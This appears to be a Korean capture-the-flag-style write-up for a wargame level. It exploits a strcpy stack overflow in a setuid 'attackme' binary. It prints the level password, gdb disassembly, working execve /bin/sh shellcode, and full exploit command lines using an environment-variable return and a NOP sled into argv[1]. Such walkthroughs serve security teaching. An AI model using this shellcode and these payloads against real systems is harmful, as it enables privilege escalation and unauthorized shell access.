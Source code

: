 # level 11

* id : `level11`
* pw : `what!@#$?`

![](./img/2021-11-08-19-49-17.png)

드디어 재미있는 bof 시간이다.

딱 보니 attackme 의 소스코드이다.

strcpy 함수를 쓰고 있으므로 오버플로우가 가능하다.

```
gdb attackme
set disassembly-flavor intel
disas main
```

```python
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp                  # 프롤로그
0x08048473 <main+3>:    sub    esp,0x108                # 0x108 == 264
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>     # setreuid(0xc14,0xc14)
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4                  # argv[1]
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]            # str 의 위치
0x0804849f <main+47>:   push   eax                      
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]            # 이후 마찬가지로 str의 위치를 출력
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
0x080484b7 <main+71>:   add    esp,0x10
0x080484ba <main+74>:   leave
0x080484bb <main+75>:   ret                             # 리턴 주소
0x080484bc <main+76>:   nop
0x080484bd <main+77>:   nop
0x080484be <main+78>:   nop
0x080484bf <main+79>:   nop
```
![](./img/2021-11-08-19-59-50.png)

위와 같이 주어져 있으므로, str을 입력할때 `(0x108 + 0x4 + [쉘코드주소])` 만큼 덮어씌우면 리턴주소에 원하는 주소를 넣어 리턴을 시킬수 있을것이다.


---
## 참고사항 - 파이썬으로 print하기


Python 2.x의 버전에서, `python -c` 명령어를 통해 cmd 출력을 할 수 있다.

이를 통해, `python -c print ...` 을 이용해 byte단위로 셸코드를 출력 할 수 있다.

ex.
```bash
python -c 'print "A"*268+"\xde\xad\xbe\xef"'
```
뒤의 글자 `deadbeef`는 실제로 입력하려면 불가능한 글자가 존재할지도 모르지만, 위와 같이 출력을 하면 아무 문제가 없다.

응용
```bash
./program_name $(python -c 'print "A"*268+"\xde\xad\xbe\xef"')
```
이런식으로 쓰면된다

---

## Shellcode Inject

이제, 쉘코드를 주입할거다.
bash를 가져오는 간단한 쉘코드를 이용할건데, 이에 대한 어셈블리어는 직접 만들긴 어렵고 인터넷에서 구해야 한다.

```bash
export sh=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep sh
```

![](./img/2021-11-08-20-06-25.png)

위와같이 sh에 요상한 글자들이 들어갔다. 저게 쉘코드다.

쉘코드를 환경변수에 넣었으니, 그 주소를 가져오고, 그걸 입력하면? 쉘코드로 자동으로 리턴되면서 쉘이 뜰것이다.

그렇다면 저 환경변수의 주소값은 어떻게 얻을까? `getenv` 함수를 이용하면 된다.

```C
#include <stdio.h>
int main() {
    printf("%p \n",getenv("sh"));
    return 0;
}
```

![](./img/2021-11-08-20-13-05.png)

이제 빌드 방법은 알것이라 믿는다..

이제 이걸 코드 안에 넣어야되는데, 당연히 리틀 엔디안 식으로 넣어야 한다.

여기서는 `bf ff fe ab`이므로 `\xab\xfe\xff\xbf`로 넣으면 된다.

```bash
./attackme `python -c 'print "A"*0x10C + "\xab\xfe\xff\xbf"'`
```

![](./img/2021-11-08-20-15-33.png)

GG!

---
## 다른 방법 - NOP Sled

`NOP` 명령어란 아무것도 안하는 것으로, 기계어로 하면 `0x90`에 해당한다.

우선 `NOP`이 가득 찬 공간을 만들고, 맨 마지막에 쉘코드를 넣은뒤

리턴값을 `NOP`이 가득 찬 공간 어딘가에 떨어뜨려 놓는것이다.

입력값이 저장되는 공간이 계속 바뀔때 `NOP Sled`를 이용하면 유용하다.


![](./img/2021-11-08-20-24-36.png)

우선 먼저 `str`이 포함되는 정확한 주소를 알아보자.

`main+17` 쯤에서 breakpoint를 잡고 `info reg`를 해보면 str이 저장되는 주소를 알수있다.

대충 `bffff030` 인데, 해보면 알겠지만 프로그램을 재실행하면 계속 주소가 바뀐다.

NOP Sled를 태울것이므로, 여기서 50바이트정도 늘린 `bffff080` 쯤으로 리턴을 해보고, 쉘코드를 넣어보겠다.

쉘코드는 위에서 썼던 것과 동일하고, 길이가 41바이트 이므로 그만큼 빼준다.

```bash
./attackme `python -c 'print "\x90"*(0x10C-41) + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x80\xf0\xff\xbf"'`
```

![](./img/2021-11-08-20-33-51.png)

해보니 아무리 해도 안된다.. 대충 해설을 보니 return 을 할 때 해당 버퍼를 다 지워버려서 저 스택 안에 있는 메모리에 접근이 안된다고 한다.

하지만, `argv[1]` 에도 마찬가지로 저 값이 씌워질것이므로 그 주소를 쫒아서 거기에 집어넣으면 된다!


![](./img/2021-11-08-20-38-14.png)

우선 입력으로 아무 글자나 꽉채우고, main 시작점에 breakpoint를 건 다음, esp 근처 메모리를 쫙 읽어보면 된다.
```
b *main
r `python -c '"A"*(0x10c)'`
info reg
x/2000w $esp
```
이미지에서 보다시피 `0xbffffb00` 쯤부터 `argv[1]` 이 덮어씌워지는걸 볼수있다.

여기에서 한 30바이트 쯤 먹은 `0xbffffb30` 으로 리턴을 덮어보겠다.

```bash
./attackme `python -c 'print "\x90"*(0x10C-41) + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x30\xfb\xff\xbf"'`
```

![](./img/2021-11-08-20-40-36.png)

GG!